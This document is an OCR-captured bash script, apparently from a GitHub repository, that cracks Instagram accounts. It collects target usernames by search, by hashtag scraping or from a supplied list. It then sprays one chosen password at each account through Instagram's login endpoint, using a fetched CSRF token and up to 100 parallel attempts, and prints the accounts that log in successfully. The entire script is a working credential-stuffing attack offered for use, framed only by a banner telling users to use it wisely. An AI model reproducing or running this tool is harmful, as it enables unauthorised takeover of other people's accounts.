 # hckig
#!/bin/bash  red='\e[1;31m' green='\e[1;32m' yellow='\e[1;33m' blue='\e[1;34m' magenta='\e[1;35m' cyan='\e[1;36m' white='\e[1;37m'  limit=100 clear  echo -e $''' \033[1;31m ┏━┓┏━┓      \033[1;36m┏┳┓┳ ┳┳ ┏┳┓┳  ┏┓ ┳━┓┳ ┳┏┳┓┳━┓ \033[1;31m ┃┏┗┛┓┃      \033[1;36m┃┃┃┃ ┃┃  ┃ ┃  ┣┻┓┣┳┛┃ ┃ ┃ ┃┫ \033[1;31m ┗┓▋▋┏┛      \033[1;36m┻ ┻┗━┛┻━┛┻ ┻  ┗━┛┻┗━┗━┛ ┻ ┻━┛ \033[1;31m┏━┻┓╲┗━━━━┓┏┓       \033[1;34m┳━┓┏━┓┏━┓┏━┓┳━┓  ┳ ┳━┓ \033[1;31m┃▎▎┃╲╲╲╲╲╲┣━┛       \033[1;34m┃┫ ┃ ┃┣┳┛┃  ┃┫   ┃ ┃ ┓ \033[1;31m┗━┳┻▅┛╲╲╲╲┃         \033[1;34m┻  ┗━┛┻┗━┗━┛┻━┛  ┻ ┗━┛ \033[1;31m  ┗━┳┓┏┳┓┏┛ \033[1;37mAuthor   \033[1;31m: \033[1;36mM. Nopal Attasya \033[1;31m    ┗┻┛┗┻┛  \033[1;37mInstagram\033[1;31m: \033[1;35m@nopal.kun             \033[1;37mYouTube  \033[1;31m: \033[1;31mPAJAOQ\e[1;37m \033[1;31m╔╦══════════════════════════════════════╦╗ \033[1;31m╠╝ \033[1;33m● \033[1;37mGunakan Tool Ini Dengan Bijak Ya!  \033[1;31m╚╣ \033[1;31m║   \033[1;37m Resikonya Kalian Tanggung Sendiri   \033[1;31m║ \033[1;31m╚════════════════════════════════════════╝ \033[1;32m------------------------------------------''' python2 TRHET.py  dependencies=( "jq" "curl" ) for i in "${dependencies[@]}" do     command -v $i >/dev/null 2>&amp;1 || {         echo >&amp;2 "$i : not installed - install by typing the command : apt install $i -y"         exit     } done   echo -e '''\033[1;32m------------------------------------------ \033[1;37m[\033[1;33m1\033[1;37m] \033[1;33mDapatkan Target Melalui \e[1;35m@username\e[1;37m \033[1;37m[\033[1;33m2\033[1;37m] \033[1;33mDapatkan Target Melalui \e[1;35m#hashtag\e[1;37m \033[1;37m[\033[1;33m3\033[1;37m] \033[1;33mHack Akun Dari Daftar Target Saya '''  read -p $'\033[1;36m[\033[1;33m+\033[1;36m] Pilih \033[1;31m: \e[1;33m' novalattasya  touch target  case $novalattasya in     1)          read -p $'\033[1;36m[\033[1;33m?\033[1;36m] Input username \033[1;31m: \e[1;33m' ask         collect=$(curl -s "https://www.instagram.com/web/search/topsearch/?context=blended&amp;query=${ask}" | jq -r '.users[].user.username' > target)         echo $'\e[37m[\e[34m+\e[37m] Jumlah Target : \e[1;33m'$collect''$(&lt; target wc -l ; echo -e "${white}Target")         read -p $'[\e[1;34m?\e[1;37m] Input Sandi   : \e[1;33m' pass         echo -e "${white}[${yellow}!${white}] ${red}Start cracking...${white}"         ;;     2)          read -p $'\e[37m[\e[34m?\e[37m] Input hastag: \e[1;33m' hashtag         get=$(curl -sX GET "https://www.instagram.com/explore/tags/${hashtag}/?__a=1")         if [[ $get =~ "Page Not Found" ]]; then         echo -e "$hashtag : ${red}Hashtag not found${white}"         exit         else             echo "$get" | jq -r '.[].hashtag.edge_hashtag_to_media.edges[].node.shortcode' | awk '{print "https://www.instagram.com/p/"$0"/"}' > result             echo -e "${white}[${blue}!${white}] Menghapus Duplikat User Dari ${red}#$hashtag${white}"$(sort -u result > hashtag)             echo -e "[${blue}+${white}] Jumlah Target : ${yellow}"$(&lt; hashtag wc -l ; echo -e "${white}user")             read -p $'[\e[34m?\e[37m] Input Sandi   : \e[1;33m' pass             echo -e "${white}[${yellow}!${white}] ${red}Start cracking...${white}"             for tag in $(cat hashtag); do                 echo $tag | xargs -P 100 curl -s | grep -o "alternateName.*" | cut -d "@" -f2 | cut -d '"' -f1 >> target &amp;             done             wait             rm hashtag result         fi         ;;     3)          read -p $'\e[37m[\e[34m?\e[37m] Input your list   : \e[1;33m' list         if [[ ! -e $list ]]; then             echo -e "${red}file not found${white}"             exit             else                 cat $list > target                 echo -e "[${blue}+${white}] Total your list   : ${yellow}"$(&lt; target wc -l)                 read -p $'[\e[34m?\e[37m] Password to use   : \e[1;33m' pass                 echo -e "${white}[${yellow}!${white}] ${red}Start cracking...${white}"         fi         ;;     *)          echo -e "${white}Input Tidak Tersedia!"         sleep 1         clear         bash ig.sh esac   token=$(curl -sLi "https://www.instagram.com/accounts/login/ajax/" | grep -o "csrftoken=.*" | cut -d "=" -f2 | cut -d ";" -f1) function brute(){     url=$(curl -s -c cookie.txt -X POST "https://www.instagram.com/accounts/login/ajax/" \                     -H "cookie: csrftoken=${token}" \                     -H "origin: https://www.instagram.com" \                     -H "referer: https://www.instagram.com/accounts/login/" \                     -H "user-agent: Mozilla/5.0 (Linux; Android 6.0.1; SAMSUNG SM-G930T1 Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/4.0 Chrome/44.0.2403.133 Mobile Safari/537.36" \                     -H "x-csrftoken: ${token}" \                     -H "x-requested-with: XMLHttpRequest" \                     -d "username=${i}&amp;password=${pass}")                     login=$(echo $url | grep -o "authenticated.*" | cut -d ":" -f2 | cut -d "," -f1)                     if [[ $login =~ "true" ]]; then                             echo -e "[${green}+${white}] ${yellow}You get it! ${blue}[${white}@$i - $pass${blue}] ${white}- with: "$(curl -s "https://www.instagram.com/$i/" | grep "&lt;meta content=" | cut -d '"' -f2 | cut -d "," -f1)                         elif [[ $login =~ "false" ]]; then                                     echo -e "[${red}!${white}] @$i - ${red}failed to crack${white}"                             elif [[ $url =~ "checkpoint_required" ]]; then                                     echo -e "[${cyan}?${white}] @$i ${white}: ${green}checkpoint${white}"                     fi }   (     for i in $(cat target); do         ((thread=thread%limit)); ((thread++==0)) &amp;&amp; wait         brute "$i" &amp;     done     wait )  rm target
